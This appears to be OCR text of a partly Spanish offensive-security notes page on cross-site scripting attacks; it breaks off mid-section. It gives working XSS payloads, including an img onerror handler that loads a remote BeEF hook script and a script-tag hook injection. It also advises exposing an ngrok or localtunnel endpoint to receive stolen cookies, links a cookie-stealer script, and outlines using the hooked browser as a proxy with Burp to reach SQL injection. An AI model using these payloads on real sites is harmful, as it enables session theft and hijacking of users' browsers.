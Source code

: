 ## Create an external IP to get requests

Puede utilizar NGROK o localtunnel para abrir una IP externa para recibir cookies Por ejemplo.

```bash
https://github.com/inconshreveable/ngrok
https://github.com/localtunnel/localtunnel
```

Este script puede ayudar a robar cookies:

```bash
https://raw.githubusercontent.com/lnxg33k/misc/master/XSS-cookie-stealer.py
```

## Notes from Video

### 1 - Keylogging

Metasploit:

````bash
service postgresql start
service metasploit start
```bash

DOM XSS:
```js
<img/src=x style="display:none" onerror="s=document.createElement('script'); s.setAttribute('src','<beef hook>');document.head.appendChild(s)">
````

### 2 - From an XSS to a SQL Injection

```bash
BeEF > Rider > Forge Request
```

PoC XSS:

```js
<span onmouseover="console.info('sounds good')">Great site</span>
```

Inject the BeEF hook:

```js
random message<script src="beef hook"></script>
```

```js
in BeEF > click in the target IP > use as Proxy
- configure a browser proxy such as foxyproxy
- 127.0.0.1:8080
- ignore proxy For localhost, 127.0.0.1, <our ip>
```

in BURP:
